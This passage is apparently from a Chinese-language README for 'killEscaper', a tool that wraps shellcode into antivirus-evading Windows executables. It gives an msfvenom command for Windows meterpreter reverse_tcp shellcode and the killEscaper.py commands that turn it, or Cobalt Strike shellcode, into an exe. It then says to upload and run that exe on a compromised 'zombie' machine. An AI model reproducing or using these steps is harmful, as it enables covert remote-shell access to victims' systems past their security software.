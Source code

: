 x32:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f python -a x86 > shellcode.txt
```

![](http://cdn.anyiblog.top/product/killescaper/imgs/image-20230608161915527.png)

2.将shellcode.txt复制到本地

3.运行脚本生成exe

```
python killEscaper.py -a 64 -f shellcode.txt
```

![](http://cdn.anyiblog.top/product/killescaper/imgs/image-20230608162208863.png)

4.运行成功后会复制到剪贴板，粘贴或在/output/文件夹找到可执行文件

![](http://cdn.anyiblog.top/product/killescaper/imgs/image-20230608162330573.png)

5.上传到肉鸡运行



### CobaltStrike生成免杀

只讲生成免杀的步骤，执行及如何返回监听请查看 **0x04 效果演示** 的视频。



1.cs生成shellcode

x64:

![](http://cdn.anyiblog.top/product/killescaper/imgs/image-20230608162606208.png)

![](http://cdn.anyiblog.top/product/killescaper/imgs/image-20230608162614396.png)



x32:

![](http://cdn.anyiblog.top/product/killescaper/imgs/image-20230608162606208.png)

![](http://cdn.anyiblog.top/product/killescaper/imgs/image-20230608162648687.png)

output输出C、python都行。

2.点击Generate到本地payload64.c

3.运行脚本生成exe

```
python killEscaper.py -a 64 -f payload64.c
```

![](http://cdn.anyiblog.top/product/killescaper/imgs/image-20230608162208863.png)
